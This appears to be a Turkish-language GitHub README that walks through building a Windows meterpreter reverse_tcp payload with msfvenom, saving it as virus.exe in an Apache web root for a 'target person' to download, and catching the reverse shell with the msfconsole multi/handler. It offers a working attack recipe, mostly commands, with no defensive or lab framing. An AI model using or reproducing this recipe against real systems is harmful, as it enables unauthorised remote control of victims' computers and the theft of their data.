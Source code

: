 ## Selam Ben linax Ve Bugun Sizlere Nasil Virus(payload) Nasil Olusturulur Onu Anlaticam.
### Oncelikle Terminali Aciyoruz Ve msfvenom Ile Komutumuzu Yaziyoruz.
### msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local Ipniz> LPORT=4444 -f exe > /var/www/html/virus.exe 
  
![Screenshot_2022-07-17_06_44_33](https://user-images.githubusercontent.com/100614268/179394888-468d8bdc-a63e-4727-9d5c-c055d0379a82.png)

### Burada Bilgisayara meterpreter Icin Bir reverse_tcp Olusturmasini Istiyoruz Ve Onu /var/www/html/virus.exe Icerisine Yolluyoruz.
### Daha Sonra Bunu Bir Servicede Aktif Etmemiz Gerek. Aktif Etmeden De Yapilir Ama Hedef Kisiye Daha Rahat Ulasabilmesi Icin Servicelerimizi Acicaz. Bunun Icin Terminale Sirasiyla Yaziyoruz.

### sudo service apache2 start
### sudo service apache2 status
  
![Screenshot_2022-07-17_06_45_23](https://user-images.githubusercontent.com/100614268/179394987-3e5f2793-89de-411e-b523-4f39b78a551e.png)

### Evet Bunun Anlami Artik Bizim Local IP mizi Bir Cihaz Web Tarayicisina Girerse Direk virus.exe yi Download Isticek. Bu Sayede Sadece Hedef Bilgisayara Kendi Local Ipnizi Girerek Bilgisayara payloadi Yerlestire Bilirsiniz. Peki Dosyayi Windowsa Atip Bir Yolla Calistirdiniz Diyelim. Devaminda Ne Yapmamiz Gerek?
  
![Screenshot_2022-07-17_06_45_59](https://user-images.githubusercontent.com/100614268/179395284-d205fc88-c31f-47e7-bf03-d654423a2bf5.png)

### Terminale msfconsole Yaziyoruz. Daha Sonra use multi/handler Yaziyoruz. Sonra show options Yaziyoruz Ve LHOSTU  set lhost 192.168.x.x  Seklinde Yazip local Ipnizi Dinleme Araci Yapiyorsunuz. Ve Artik Hazirsiniz. 
![Screenshot_2022-07-17_06_47_02](https://user-images.githubusercontent.com/100614268/179395205-91bc1d94-6ca9-4c6f-9bb7-e502ade40310.png)

### exploit yada run Komutlarini Girdikten Sonra Windowsa Erisirsiniz. help Yazarak Devam Ede Bilirsiniz.
